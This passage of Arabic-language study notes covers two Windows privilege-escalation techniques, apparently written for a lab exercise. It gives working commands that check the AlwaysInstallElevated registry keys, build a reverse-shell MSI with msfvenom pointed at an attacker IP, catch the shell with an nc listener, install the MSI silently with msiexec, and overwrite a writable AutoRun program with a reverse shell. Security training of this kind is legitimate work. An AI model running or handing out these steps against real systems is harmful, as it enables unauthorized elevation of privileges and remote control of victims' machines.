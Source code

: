 ```
```

- **HKCU**: يمثل إعدادات المستخدم الحالي.
- **HKLM**: يمثل إعدادات النظام العامة (لكل المستخدمين).
 **ملاحظة**: ==إذا كانت القيمة (`AlwaysInstallElevated`) تساوي `1`== في كلا المسارين، فهذا يعني أن إعدادات النظام تتيح تثبيت ملفات .msi بصلاحيات مرتفعة، حتى للمستخدمين غير الإداريين.

2- إنشاء ملف .msi يحتوي على reverse shell:
```

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi

```

3-نقل ملف reverse.msi إلى النظام المستهدف
4-تشغيل  (Listener) على Kali
`nc -lvnp 53`

5-تشغيل ملف .msi بصلاحيات مرتفعة
```


msiexec /quiet /qn /i C:\PrivEsc\reverse.msi


```

-------------------------------------------------------------------
# AutoRuns
1-التحقق من وجود مسارات AutoRun في الريجستري
```

reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

```

2-فحص permissions الكتابة على ملفات AutoRun باستخدام accesschk

```


C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

```
- **/wvu**: يشير إلى عرض أذونات الكتابة لكافة المستخدمين.
3- استبدال برنامج AutoRun بملف reverse shell
```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y

```

4- إعداد  (Listener) على Kali
5- تشغيل البرنامج باستخدام جلسة RDP لتفعيل الـ AutoRun
```
rdesktop MACHINE_IP
```
